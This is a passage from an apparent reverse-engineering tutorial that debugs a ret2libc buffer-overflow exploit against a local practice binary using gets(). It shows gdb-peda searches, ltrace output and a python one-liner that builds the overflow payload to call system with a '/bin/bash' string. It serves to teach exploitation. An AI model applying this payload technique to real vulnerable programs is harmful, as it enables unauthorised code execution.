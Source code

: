 Now, that I observe the payload, the binsh_address = 0xf7f50a0b has a **newline / 0x0a** character in it. So, the  way gets works is it will simply take in input till a newline character or End-Of-File is encountered. So, as per this, gets should not have taken the complete address of binsh_address as input, but there we got a shell. 

Looking at this, I am almost convinced that our exploit will not work properly. I am actually surprised that we got a shell using gdb. I think the gdb is intervening. Because gets will not take one a newline / EOF is encountered. If it is taking in, then there is something fishy. 

Let us discuss about this later. Let us now focus on the exploit. Let us run the program normally. This is what I got. 

    rev_eng_series/post_14$ ./defeat < exploit.txt 
    Before calling func
    Segmentation fault (core dumped)

There is a tool called **ltrace** which will print out all the calls made to library functions. Using this, we will know if **system** actually got called or not. 

    rev_eng_series/post_14$ ltrace ./defeat < exploit.txt 
    __libc_start_main(0x8048453, 1, 0xffffcd54, 0x80484a0 <unfinished ...>
    puts("Before calling func"Before calling func
    )                      = 20
    gets(0xffffcc2c, 0x804b008, 20, 0xf7e5f3ac)      = 0xffffcc2c
    --- SIGCHLD (Child exited) ---
    --- SIGSEGV (Segmentation fault) ---
    +++ killed by SIGSEGV +++

Either it was not called or it was not called properly - it didn't have a proper argument. That is why the program SegFaulted by dereferencing probably an invalid address. 

Instead of taking "/bin/sh", let us take "/bin/bash" which is present in the address space. 

Find the address of "/bin/bash" using **find** command in gdb and put the payload in exploit.txt . 

    gdb-peda$ find "/bin/bash"
    Searching for '/bin/bash' in: None ranges
    Found 1 results, display max 1 items:
    [stack] : 0xffffd07a ("/bin/bash")

I got an address here. This "/bin/bash" is present on the stack. It is one of the environment variables. 

Use the **ltrace** to see what is happening. 

    rev_eng_series/post_14$ python -c "print 'a' * 108 + 'b' * 4 + '\xa0\xfd\xe2\xf7' + 'c' * 4 + '\x7a\xd0\xff\xff'" > exploit.txt
    rev_eng_series/post_14$ ltrace ./defeat < exploit.txt 
    __libc_start_main(0x8048453, 1, 0xffffcd54, 0x80484a0 <unfinished ...>
    puts("Before calling func"Before calling func
    )                      = 20
    gets(0xffffcc2c, 0x804b008, 20, 0xf7e5f3ac)      = 0xffffcc2c
    sh: 1: 56color: not found
    --- SIGCHLD (Child exited) ---
    --- SIGSEGV (Segmentation fault) ---
    +++ killed by SIGSEGV +++
